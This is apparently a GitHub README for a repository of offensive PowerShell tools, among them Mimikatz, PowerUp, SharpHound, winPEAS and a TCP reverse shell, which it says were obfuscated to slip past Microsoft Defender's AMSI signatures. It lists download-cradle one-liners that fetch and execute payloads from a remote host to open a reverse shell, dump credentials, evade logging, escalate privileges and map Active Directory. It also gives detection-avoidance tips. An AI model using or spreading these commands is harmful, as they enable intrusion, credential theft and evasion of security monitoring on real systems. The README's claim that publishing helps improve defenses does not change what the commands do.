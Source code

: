 
<h1 align="center">
<br>
<img src=ihateamsi.jpg height="310" border="2px solid #555">
<br>
i hate AMSI
</h1>
<h4 align="center">
disabling RTM is for noobs
</h4>

## why is this public

Even though I hate MDE, showing off how easy it is to bypass AMSI can only help make it better. Right now it is the only protections for a significant amount of home users and smaller enterprises and that is really really bad.

## bypasses

These are all just for MDE. Anything serious and you're on your own

- `Invoke-Mimimkatz` **[NOT WORKING YET]**
    - The source VS solution had to be edited manually as the reflective assembly blob is signatured pretty hard. After compiling you can use that update script online (google it) and update the blob.
    - Had to add some base64-strings and change a parameter on PowerShell script. `DumpCreds` is now `GetPwned`.

- `PowerUp.ps1`
    - Removed service binaries. Hijack it yourself!
    - HTML reports removed.

- `Invoke-PowerShellTcp`
    - Removed some comments and error messages.

- `InvisiShell`
    - No changes.

- `SharpHound.ps1`
    - Had to obfuscate a reflection string.

- `winPEAS.bat`
    - Obfuscated color line string variable (terrible signature.)

## download cradles

These only work on PowerShell 3.0. Don't downgrade to 2.0 you will get caught

- **Reverse Shell**
```
iex (iwr http://172.16.100.X/Invoke-PowerShellTcp-OBFS.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443
```

- **Log Evasion**
```
iwr http://172.16.100.X/InvisiShellProfiler.dll -UseBasicParsing -OutFile InvisiShellProfiler.dll;
iex (iwr http://172.16.100.X/RunWithRegistryNonAdmin.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/RunWithPathAsAdmin.bat -UseBasicParsing);
```

- **Privilege Escalation**
```
iex (iwr http://172.16.100.X/winPEAS-OBFS.bat -UseBasicParsing);
iex (iwr http://172.16.100.X/PowerUp.ps1 -UseBasicParsing); Invoke-AllChecks;
```

- **Dump Creds**
```
iex (iwr http://172.16.100.X/Invoke-Mimikatz-OBFS.ps1 -UseBasicParsing); Invoke-Mimikatz -GetPwned;
```

- **Domain Abuse**

SHARPHOUND TOUCHES DISK OBVIOUSLY

```
iex (iwr http://172.16.99.77/SharpHound.ps1); Invoke-BloodHound -CollectionMethod All -Stealth -ExcludeDCs;
```

## to-be-added

- `SessionHunter`
- `PowerView`
- `Rubeus`
- obfuscated shell for .net reflected assemblies
